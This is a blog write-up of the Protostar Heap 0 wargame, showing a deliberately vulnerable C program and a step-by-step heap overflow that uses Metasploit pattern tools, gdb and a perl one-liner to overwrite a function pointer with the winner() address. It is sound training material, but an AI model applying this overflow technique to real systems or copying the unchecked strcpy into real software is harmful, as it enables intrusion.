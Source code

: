 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Heap 0"
date: 2012-01-10T05:34:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


Now that I've completed all of the Stack section of protostar, I've started to move onto Heap.  The first of these challenges, is [Heap 0](http://exploit-exercises.com/protostar/heap0).  We are given the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
 char name[64];
};

struct fp {
 int (*fp)();
};

void winner()
{
 printf("level passed\n");
}

void nowinner()
{
 printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
 struct data *d;
 struct fp *f;

 d = malloc(sizeof(struct data));
 f = malloc(sizeof(struct fp));
 f->fp = nowinner;

 printf("data is at %p, fp is at %p\n", d, f);

 strcpy(d->name, argv[1]);

 f->fp();

}
```

I first needed to find the offset to where I could overwrite the EIP, so I connected to my other machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated a unique string.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then used this string as the input to the heap0 executable.

```
user@protostar:/opt/protostar/bin$ gdb ./heap0 --quiet
Reading symbols from /home/user/heap0...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
Starting program: /home/user/heap0 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) print winner
$1 = {void (void)} 0x8048464 <winner>
```

Notice that we see the EIP is 0x41346341.  Additionally while I was debugging, I also got the address of the "winner" function, since I will want to redirect to that later.  It was at 0x08048464. 

I then connected to my [Metasploit Framework](http://www.metasploit.com) enabled machine to calculate the offset. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x41346341
72
```

I then simply used perl to create an argument for the heap0 executable with 72 "A"s for spacing, and passing the address of the "winner" function in little-endian format to it.  It then succeeded.

```
user@protostar:/opt/protostar/bin$ ./heap0 `perl -e 'print "A"x72 . "\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```